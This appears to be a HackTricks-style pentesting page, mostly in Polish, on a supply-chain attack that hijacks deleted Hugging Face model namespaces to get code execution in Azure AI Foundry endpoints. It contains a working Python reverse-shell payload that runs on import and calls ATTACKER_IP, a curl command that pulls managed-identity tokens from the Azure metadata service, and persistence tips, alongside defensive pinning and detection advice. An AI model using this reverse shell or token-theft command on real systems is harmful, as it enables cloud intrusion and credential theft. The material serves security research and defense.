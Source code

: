 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenariusz

- Azure AI Foundry Model Catalog zawiera wiele modeli Hugging Face (HF) gotowych do jednoklikowego wdrożenia.
- HF model identifiers are Author/ModelName. Jeśli autor/org HF zostanie usunięty, każdy może ponownie zarejestrować tego autora i opublikować model o tej samej nazwie ModelName pod legacy path.
- Pipelines i katalogi, które pobierają tylko po nazwie (no commit pinning/integrity), rozwiążą się do repozytoriów kontrolowanych przez atakującego. Gdy Azure wdroży model, loader code może wykonać się w środowisku endpointa, przyznając RCE z uprawnieniami tego endpointa.

Common HF takeover cases:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identyfikacja ponownie używalnych przestrzeni nazw (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Pełny przebieg ataku przeciwko Azure AI Foundry

1) W Model Catalog znajdź modele HF, których oryginalni Authorzy zostali usunięci lub przeniesieni (stary Author usunięty) na HF.  
2) Zarejestruj ponownie porzuconego Authora na HF i odtwórz ModelName.  
3) Opublikuj złośliwe repo z kodem loadera, który wykonuje się przy imporcie lub wymaga trust_remote_code=True.  
4) Wdróż legacy Author/ModelName z Azure AI Foundry. Platforma pobierze repo atakującego; loader wykona się wewnątrz kontenera/VM endpointu Azure, co doprowadzi do RCE z uprawnieniami endpointu.

Przykładowy fragment payloadu wykonywany przy imporcie (tylko w celach demonstracyjnych):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notatki
- Wdrożenia AI Foundry, które integrują HF, zazwyczaj klonują i importują moduły repozytoriów odwoływane w konfiguracji modelu (np. auto_map), co może wywołać code execution. Niektóre ścieżki wymagają trust_remote_code=True.
- Dostęp zazwyczaj odpowiada uprawnieniom managed identity/service principal endpointu. Traktuj to jako initial access foothold do dostępu do danych i lateral movement w Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Wylistuj zmienne środowiskowe i MSI endpoints w poszukiwaniu tokenów:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Sprawdź zamontowane pamięci masowe, artefakty modeli oraz dostępne usługi Azure przy użyciu pozyskanego tokena.
- Rozważ persistence poprzez pozostawienie poisoned model artifacts, jeśli platforma ponownie pobiera je z HF.

## Wskazówki obronne dla użytkowników Azure AI Foundry

- Przypinaj modele do konkretnego commit podczas ładowania z HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Twórz lustrzane kopie zweryfikowanych modeli HF w zaufanym wewnętrznym rejestrze i wdrażaj stamtąd.
- Nieustannie skanuj repozytoria kodu oraz defaults/docstrings/notebooks w poszukiwaniu na stałe zakodowanych Author/ModelName, które zostały usunięte/przeniesione; zaktualizuj lub przypnij.
- Zweryfikuj istnienie autora i pochodzenie modelu przed wdrożeniem.

## Heurystyki rozpoznawania (HTTP)

- Usunięty autor: strona autora 404; stara ścieżka modelu 404 aż do przejęcia.
- Przeniesiony model: stara ścieżka 307 do nowego autora, podczas gdy stary autor nadal istnieje; jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, stara ścieżka serwuje zawartość kontrolowaną przez atakującego.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Odniesienia krzyżowe

- Zobacz szerszą metodologię i uwagi dotyczące łańcucha dostaw:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencje

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
